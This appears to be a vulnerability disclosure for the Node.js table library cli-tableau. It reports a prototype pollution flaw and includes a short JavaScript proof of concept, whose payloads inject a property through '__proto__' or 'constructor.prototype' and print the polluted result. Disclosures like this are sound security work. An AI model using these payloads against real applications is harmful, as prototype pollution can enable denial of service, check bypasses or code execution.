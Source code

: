 ## description
cli-tableau is a pretty unicode table for the CLI with Node.JS.

cli-tableau is vulnerable to Prototype Pollution. The utilities function allows modification of the Object prototype. 
If an attacker can control part of the structure passed to this function, they could add or modify an existing property.
Possibly leading to many kinds of attacks such as the denial-of-service, checking bypass, or potentially code execution.

## PoC
Run the PoC.js with the contents below:
```javascript
//PoC.js

var cli = require('cli-tableau');

var payload = '{"__proto__":{"polluted":"pzhou@shu"}}';
//var payload = '{"constructor":{"prototype":{"polluted":"pzhou@shu"}}}';

console.log('Before:', {}.polluted);

cli(JSON.parse(payload));

console.log('After:', {}.polluted);

//end of PoC.js
```
